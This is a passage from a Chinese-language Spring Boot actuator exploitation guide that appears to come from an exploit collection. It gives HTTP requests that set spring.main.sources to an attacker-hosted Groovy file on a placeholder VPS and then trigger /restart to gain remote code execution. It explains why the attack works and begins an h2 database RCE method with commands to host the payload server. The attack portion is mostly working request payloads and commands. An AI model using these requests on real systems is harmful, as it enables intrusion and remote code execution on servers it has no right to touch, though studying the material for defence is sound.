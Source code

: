 ```
POST /actuator/env
Content-Type: application/json

{"name":"spring.main.sources","value":"http://your-vps-ip/example.groovy"}
```

**步骤三：重启应用**

spring 1.x

```
POST /restart
Content-Type: application/x-www-form-urlencoded
```

spring 2.x

```
POST /actuator/restart
Content-Type: application/json
```

**漏洞原理：**

1. 目标机器可以通过 spring.main.sources 属性来设置创建 ApplicationContext 的额外源的 URL 地址
2. restart 重启应用后，程序会请求设置的 URL 地址
3. `spring-boot` 组件中的 `org.springframework.boot.BeanDefinitionLoader.java` 文件代码逻辑中会判断 url 是否以 `.groovy` 结尾
4. 如果 url 以 `.groovy` 结尾，则最终会执行文件内容中的 groovy 代码，造成 RCE 漏洞

**漏洞环境：**

[repository/springboot-restart-rce](https://github.com/LandGrey/SpringBootVulExploit/tree/master/repository/springboot-restart-rce)

正常访问：

```
http://127.0.0.1:9098/actuator/env
```

#### 0x0C：restart spring.datasource.data h2 database RCE

**利用条件：**

* 可以 POST 请求目标网站的 `/env` 接口设置属性
* 可以 POST 请求目标网站的 `/restart` 接口重启应用
* 环境中需要存在 `h2database`、`spring-boot-starter-data-jpa` 相关依赖
* ⚠️ 目标可以请求攻击者的 HTTP 服务器（请求可出外网），否则 restart 会导致程序异常退出
* ⚠️ HTTP 服务器如果返回含有畸形 h2 sql 语法内容的文件，会导致程序异常退出

**利用方法：**

**步骤一：托管 sql 文件**

在自己控制的 vps 机器上开启一个简单 HTTP 服务器，端口尽量使用常见 HTTP 服务端口（80、443）

```
# 使用 python 快速开启 http server

python2 -m SimpleHTTPServer 80
python3 -m http.server 80
```
